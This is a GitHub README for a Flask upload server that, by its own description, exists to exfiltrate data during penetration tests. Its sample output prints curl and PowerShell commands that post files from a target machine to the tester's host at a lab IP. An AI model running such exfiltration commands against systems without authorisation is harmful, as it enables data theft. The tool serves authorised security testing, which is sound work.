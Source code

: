 # Flask Upload Server
Flask server to exfiltrate data during penetration tests.

# Usage
`uploadserver.py [-h] [-o UPLOAD_FOLDER] [-i INTERFACE] [-p PORT]`


```
-h, --help                                             show this help message and exit
  
  -o UPLOAD_FOLDER, --upload-folder UPLOAD_FOLDER      The path where uploaded files will be stored (default: uploads)
                        
  -i INTERFACE, --interface INTERFACE                  Network interface to run the server on (default: eth0)
                        
  -p PORT, --port PORT                                 Port number to run the server on (default: 80)
```

# Sample Output

![Screenshot_002372](https://github.com/piercecohen1/flask-upload-server/assets/19575201/bc250694-23da-48aa-9136-1493a368f5cc)


```
└─$ python3 uploadserver.py -i tun0

Server running on 10.10.14.20:80 (interface: tun0)

To upload a file from Linux:
curl -F "file=@myfile.txt" http://10.10.14.20:80/upload/myfile.txt

To upload a file from Windows:
iwr -Uri "http://10.10.14.20:80/upload/myfile.txt" -Method Post -Infile "myfile.txt"

 * Serving Flask app 'uploadserver'
 * Debug mode: off
```
